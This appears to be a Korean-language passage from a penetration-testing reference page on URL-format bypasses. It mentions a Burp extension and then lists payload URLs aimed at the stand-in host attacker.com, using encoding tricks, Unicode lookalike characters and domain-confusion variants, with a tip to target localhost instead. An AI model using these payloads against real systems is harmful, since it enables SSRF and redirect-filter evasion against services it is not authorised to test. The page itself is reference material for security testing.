 ![](<../../.gitbook/assets/image (776).png>)

**Burp 확장** [**Burp-Encode-IP**](https://github.com/e1abrador/Burp-Encode-IP)는 IP 형식 우회를 구현합니다.

### 도메인 파서
```bash
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
```

```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾
⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗
⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰
⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ
Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ
ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
### 도메인 혼란
```bash
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
https://{domain}@attacker.com
https://{domain}.attacker.com
https://{domain}%6D@attacker.com
https://attacker.com/{domain}
https://attacker.com/?d={domain}
https://attacker.com#{domain}
https://attacker.com@{domain}
https://attacker.com#@{domain}
https://attacker.com%23@{domain}
https://attacker.com%00{domain}
https://attacker.com%0A{domain}
https://attacker.com?{domain}
https://attacker.com///{domain}
https://attacker.com\{domain}/
```